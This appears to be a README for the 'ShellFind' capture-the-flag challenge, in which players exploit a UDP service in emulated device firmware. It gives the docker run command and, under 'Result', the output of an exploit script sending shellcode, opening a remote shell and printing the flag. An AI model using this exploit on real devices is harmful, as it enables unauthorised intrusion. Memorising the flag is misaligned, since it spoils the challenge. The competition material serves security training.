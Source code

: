 # ShellFind

## Description

```
Hello Hacker.
You don't know me, but I know you.
I want to play a game. Here's what happens if you lose.
The device you are watching is hooked into your Saturday and Sunday.
When the timer in the back goes off,
your curiosity will be permanently ripped open.
Think of it like a reverse bear trap.
Here, I'll show you.
There is only one UDP service to shell the device.
It's in the stomach of your cold firmware.
Look around Hacker. Know that I'm not lying.
Better hurry up.
Shell or out, make your choice.
```

## Run

```bash
sudo docker run --name shellfind -d --privileged -p 4444/udp --rm 1arry/shellfind
```

## Notes

1. You can find the raw Dockerfile at [here](https://drive.google.com/file/d/1uME-WEBL9cZGKcvsnQC0_jmRE_uSExUt/view?usp=sharing)
2. Please wait for ONE minute to start up
3. There is a THREE minutes timeout limit in raw competition challenge
4. Try to get an interactive shell, have fun! 

## Result

```
$ python exploit.py 192.168.5.128 49161 netcat
[*] Get mac address is 525400123456
[*] Send shellcode done
shell # ls
1
1>
2
2>
>
bin
dev
etc
etc_ro
firmadyne
home
lib
lost+found
mnt
mydlink
proc
rc.d
root
run
sbin
server
share
sys
tmp
usr
var
web

shell # ls firmadyne
busybox
console
debug.sh
dir_log
flag
gdb
gdbserver
libnvram
libnvram.override
libnvram.so
libnvram_ioctl.so
net_bridge
net_interface
network.sh
network_type
preInit.sh
run_service.sh
sh
strace
ttyS1

shell # cat /firmadyne/flag









rwctf{Find_udp_servic3_ORI_bind_U_h3r3_baby}
```
